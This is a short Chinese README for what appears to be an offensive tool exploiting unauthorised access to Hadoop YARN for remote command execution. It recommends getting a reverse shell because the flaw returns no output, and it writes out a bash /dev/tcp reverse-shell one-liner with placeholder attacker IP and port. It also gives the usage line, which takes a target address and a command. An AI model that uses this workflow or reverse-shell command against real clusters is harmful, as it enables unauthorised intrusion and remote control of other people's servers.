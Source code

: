 # 工具介绍

*> HadoopYARN 未授权访问 rce

*> 因为该漏洞为无回显的漏洞，因此建议命令执行反弹shell。

*> Linux反弹shell：bash -i >& /dev/tcp/ip地址/端口 0>&1


# 工具的使用

使用：

``` 
python HadoopYARN_Unauthorized_RCE.py 目标地址 "cmd"
```

![image-20220602145832912](images/image-20220602145832912.png)
